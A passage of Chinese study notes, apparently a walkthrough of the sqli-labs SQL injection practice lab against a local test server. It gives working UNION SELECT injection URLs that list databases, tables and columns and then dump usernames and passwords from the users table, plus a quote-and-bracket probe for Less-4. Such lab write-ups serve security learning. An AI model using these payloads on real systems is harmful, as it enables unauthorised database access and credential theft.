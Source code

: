 （单引号、双引号、括号）<br />输入 ?id=1' 判断注入类型<br />![截屏2021-06-09 上午1.40.57.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623174071177-c2ab0a30-2ad8-472c-8052-3a0e77268446.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=jBmOy&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%881.40.57.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=678192&status=done&style=none&title=&width=2604)<br />![截屏2021-06-09 上午1.40.45.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623174086034-a809916f-e79b-4dbd-aaab-87de99c0fdcd.png#crop=0&crop=0&crop=1&crop=1&height=278&id=SqXEI&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%881.40.45.png&originHeight=278&originWidth=590&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15286&status=done&style=none&title=&width=590)<br />在错误回显中（两个单引号之间）判断处为单引号字符型注入<br />利用order by判断列数<br />![截屏2021-06-09 上午1.48.55.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623174588830-11676235-6277-40be-959c-704a80188ea0.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=VB74c&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%881.48.55.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=683065&status=done&style=none&title=&width=2604)<br />查询数据库名<br />http://127.0.0.1:8081/Less-1/?id=' union select 1,group_concat(schema_name),database() from information_schema.schemata --+<br />![截屏2021-06-09 上午1.55.11.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623174935213-9b2ff540-3ed7-4bd4-96e7-699e7a40782b.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=xYOuI&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%881.55.11.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=725225&status=done&style=none&title=&width=2604)<br />查询security库中的数据表名<br />http://127.0.0.1:8081/Less-1/?id=' union select 1,group_concat(table_name),database() from information_schema.tables where table_schema=database() --+<br />![截屏2021-06-09 上午2.00.00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623175217995-f57d3561-22f6-4c9b-9ca4-05c72ce00097.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=qAYVl&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%882.00.00.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=717345&status=done&style=none&title=&width=2604)<br />查询users表中的列<br />http://127.0.0.1:8081/Less-1/?id=' union select 1,group_concat(column_name),database() from information_schema.columns where table_schema=database() and table_name='users' --+<br />![截屏2021-06-09 上午2.04.46.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623175500990-1c4d8f0a-a667-4b6f-a7c0-43baea7a50fe.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=dOHPv&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%882.04.46.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=724281&status=done&style=none&title=&width=2604)<br />查询username和password<br />http://127.0.0.1:8081/Less-1/?id=' union select 1,group_concat(concat_ws(':',username,password)),database() from users  --+<br />![截屏2021-06-09 上午2.10.42.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623175866998-ae672970-7bdd-4f42-920b-31d68e1cf084.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=KkPSQ&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%882.10.42.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=754091&status=done&style=none&title=&width=2604)

---

![截屏2021-06-09 上午2.15.15.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623176131530-e4ac76d8-658b-4b27-9c54-a022ee3b2461.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=Tk0Uq&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%882.15.15.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=856109&status=done&style=none&title=&width=2604)<br />同样的，根据报错判断所传递的数据被什么符号包裹<br />![截屏2021-06-09 上午2.15.01.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623176202580-2c2bc1ba-54f5-4cf6-846f-e0f738774484.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=oWyNY&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8A%E5%8D%882.15.01.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=941124&status=done&style=none&title=&width=2604)<br />http://127.0.0.1:8081/Less-4/?id=1“) %23<br />判断出1被“和）包裹，即 ("1")

剩余步骤与前两道相同，略
## 盲注
### 布尔盲注